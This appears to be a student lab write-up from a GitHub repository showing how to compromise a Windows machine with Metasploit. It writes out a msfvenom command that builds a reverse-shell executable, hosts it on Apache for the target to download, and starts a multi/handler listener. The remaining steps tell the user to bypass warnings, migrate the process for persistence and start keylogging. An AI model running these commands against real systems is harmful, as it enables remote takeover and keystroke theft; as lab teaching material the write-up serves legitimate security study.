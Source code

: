 # Reg no: 212224040196
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig

![1con](https://github.com/user-attachments/assets/0d25e9d9-c4b8-4ac8-ac9f-345b4ec13e00)

Create a malicious executable file fun.exe using msfvenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![2venom](https://github.com/user-attachments/assets/488fa0a4-6c42-491c-af54-2ce2a5b3cebc)

copy the fun.exe into the apache /var/www/html folder

![3cp](https://github.com/user-attachments/assets/8c032d11-68d5-4cc4-92c0-9cee47f59626)

Start apache server
sudo systemctl apache2 start

![4sys](https://github.com/user-attachments/assets/e63fed3e-ece1-49ed-bf4c-c51562e9821f)

Check the status of apache2

![5stat](https://github.com/user-attachments/assets/e0b4745e-2798-4a07-8cc6-04851015a04e)

Invoke msfconsole:

![6msfc](https://github.com/user-attachments/assets/64acdbd3-c086-4101-95b6-ce6e4d81b73b)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![7help](https://github.com/user-attachments/assets/4e8232ee-33aa-4455-8a72-391b4eff3d01)


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![8](https://github.com/user-attachments/assets/39b60011-8a30-4c59-bab3-083e062e2632)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.

![8download](https://github.com/user-attachments/assets/a26d4eb4-dbc9-4a69-8328-a0fa2cfdf942)

Bypass any warning boxes, double-click the file, and allow it to run.

![9show](https://github.com/user-attachments/assets/8a60e1e0-626d-4d52-a331-18887ba75425)

On kali give the command exploit

![10com](https://github.com/user-attachments/assets/1218d326-1024-4702-83f1-8eac34ba66a4)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running 

![11sho](https://github.com/user-attachments/assets/472c76bb-f732-4508-9d82-92bcc8f7b255)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe

![12mig](https://github.com/user-attachments/assets/39eab6b3-a07a-4412-8760-2de39ec788b7)

at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted

![13sho](https://github.com/user-attachments/assets/f7c48cdc-d11f-4515-b053-87173525947b)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![15keyscan](https://github.com/user-attachments/assets/ddfc16fa-9ae9-44dd-880f-7d15c2feb0c1)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
